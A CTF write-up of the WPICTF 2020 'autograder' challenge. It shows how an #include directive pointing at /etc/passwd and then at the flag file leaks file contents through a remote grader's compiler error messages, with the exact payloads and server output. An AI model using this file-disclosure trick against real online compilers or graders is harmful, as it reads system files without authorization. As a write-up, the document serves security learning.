



Solving autograder from WPICTF CTF 2020
Posted on Mon 20 April 2020 in CTF by 0xm4v3rick
The autograder from WPICTF CTF 2020 challenge had below note:
1 2 3 | A prof made a little homework grader at https://autograder.wpictf.xyz/
but I heard he is hiding a flag at /home/ctf/flag.txt
made by: awg and rm -k
|
The challenge page allowed us to include C code which would than be sent to the server, compiled and return the results as shown below:

Immediate reaction to this was to read the /etc/passwd by submitting a code that would read it and see if it could work. After trying a multiple ways to achieve it nothing seemed to worked. All I could get was error such as below:
1 2 3 4 | Run stdout
None
stderr
None
|
Then, while searching for ways to solve this I remembered reading about a similar CTF challenge which would read file when the file was used in #include directive. So I thought of giving it a try. I simply included another directive to the already available program such as below and that gave us the first line of the /etc/passwd file in the error.
1 | #include </etc/passwd>
|
Response:
1 2 3 4 5 6 7 | Compiler stdout
None
stderr
In file included from /tmp/sarce/tmp31nm_f69/input.c:11:
/etc/passwd:1:5: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘:’ token
1 | root:x:0:0::/root:/bin/bash
| ^
|

This looks like enough of file disclosure to read the flag. Now we could retrieve the flag by including it as follows.
1 | #include </home/ctf/flag.txt>
|
Response:
1 2 3 4 5 6 7 | Compiler stdout
None
stderr
In file included from /tmp/sarce/tmpzvurrumi/input.c:11:
/home/ctf/flag.txt:1:4: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘{’ token
1 | WPI{D0nt_run_as_r00t}
| ^
|

Thanks WPICTF team from the challs. Thanks for stopping by. Feel free to contact me on twitter for any queries or feedback. Cheers!!!